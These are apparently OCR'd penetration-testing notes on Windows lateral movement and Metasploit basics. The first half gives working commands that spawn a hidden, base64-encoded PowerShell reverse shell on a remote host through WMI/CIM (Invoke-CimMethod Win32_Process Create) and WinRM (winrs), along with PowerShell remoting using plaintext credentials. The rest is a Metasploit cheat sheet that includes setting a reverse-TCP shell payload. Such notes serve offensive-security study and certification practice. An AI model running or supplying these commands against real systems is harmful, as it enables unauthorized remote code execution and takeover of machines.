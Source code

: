```
$session = New-Cimsession -ComputerName 192.168.target.ip -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e BASE64_OUTPUT_FROM_EARLIER_SCRIPT_JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

Reverse Shell - WinRM
Generate base64 encoded reverse shell with python above, launch a NetCat lsitener, and then in PowerShell run;
```
winrs -r:files04 -u:targetuser -p:Password123!  "powershell -nop -w hidden -e BASE64_OUTPUT_FROM_EARLIER_SCRIPT_JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

It's also possible to invoke New-PSSession in PowerShell 
```
$username = 'targetuser';
$password = 'Password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.target.ip -Credential $credential
```
And enter the newly created session with: `Enter-PSSession 1`

# Metasploit Framework
- Setup a msf database: `sudo msfdb init`
	- To start on bootup: `sudo systemctl enable postgresql`
- Launch Metasploit: `sudo msfconsole` (add `-q` to launch without banner)
- Check database connectivity: `db_status`
- All available commands: `help`
- Workspaces
	- Check workspaces; `workspace`
	- Create workspace: `workspace -a workspacename`
- Run nmap inside metasploit: `db_nmap` (eg. `db_nmap -A 192.168.154.10 -v`)
- List discovered hosts: `hosts`
- List discovered services: `services` (add `-p 8000` to list services on port 8000)
- Show auxiliary modules: `show auxiliary`
- Search for SMB auxiliary modules: `search type:auxiliary smb`
	- To use a module (eg. #56) found in a search: `use 56`
	- To get info on a module you've selected to use: `info`
	- To see options for a module: `show options`
	- To set options (eg. "RHOSTS" to 192.168.50.145): `set RHOSTS 192.168.50.147` 
		- And unset with: `unset RHOSTS`
	- Set "rhosts" to all discovered hosts with open port 445: `services -p 445 --rhosts`
	- To execute a module: `run`
	- To execute a module in the background: `run -j` (use `jobs` to list running jobs)
- To display vulnerabilities found by the module: `vulns`
## Exploit Modules
To lookup exploit info;
- Select the module with `use` and the module number (eg. `use 10`)
- Then type `info`
To set a payload: `set payload payloadnameornumber` 
	eg. `set payload payload/linux/x64/shell_reverse_tcp`
	eg. List payloads with `show payloads` then `set payload 15`